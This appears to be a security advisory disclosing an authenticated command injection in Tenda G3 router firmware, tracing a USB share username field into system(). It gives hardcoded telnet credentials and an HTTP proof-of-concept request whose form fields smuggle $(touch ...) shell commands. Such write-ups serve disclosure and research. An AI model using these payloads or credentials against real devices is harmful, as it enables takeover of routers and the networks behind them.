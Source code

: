 # Tenda G3 Command injection vulnerability

## Overview

- Manufacturer's website information：<https://www.tenda.com.cn/>
- Firmware download address ：<https://www.tenda.com.cn/product/download/G3.html>

## Vulnerability information

There is a command injection vulnerability in tenda G3 V15.11.0.20, which can execute arbitrary command in route system.

## Affected version

![](pic/1.png "")

Figure shows the latest firmware of V3：V15.11.0.20.

## Vulnerability details

open telnet  <http://192.168.0.1/goform/telnet>
telnet admin/password is root/ Fireitup

using ida to analysis httpd, in function formSetUSBShareInfo:

![](pic/code1.png "")

The program passes the contents obtained by the usbOrdinaryUserName parameter to usbOrdinaryUserName.
Then, usbOrdinaryUserName are called by setValueIfNotNull to stored the value in system.  

In binary netctrl, the stored value was passed to user by GetValue(), and finally the vaule is passed to cmd.
![](pic/code2.png "")

![](pic/code3.png "")
The cmd is called by system().  
There exists command injection vulnerability.

## Vulnerability exploitation condition

Need to get cookie after logging in to execute the attack.

The functional data packets are as follows, and we will use this to construct poc.  

```http
POST /goform/setUSB HTTP/1.1
Host: 192.168.0.252
Content-Length: 201
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.252
Referer: http://192.168.0.252/USB/usbFileShare.html?0.07972570565071435
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _:USERNAME:_=; G3v3_user=
Connection: close

usbPrivilegedUserName=admin$(touch${IFS}/tmp/test1)&usbPrivilegedUserPwd=admin$(touch${IFS}/tmp/test2)&usbOrdinaryUserName=guest$(touch${IFS}/tmp/test3)&usbOrdinaryUserPwd=guest$(touch${IFS}/tmp/test4)
```

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Connect physical devices
2. Attack with the POC

The poc and reproduction results are as follows:

![](pic/effect.png "")

Figure shows POC attack effect, the file test3 is created.

## CVE-ID

unsigned

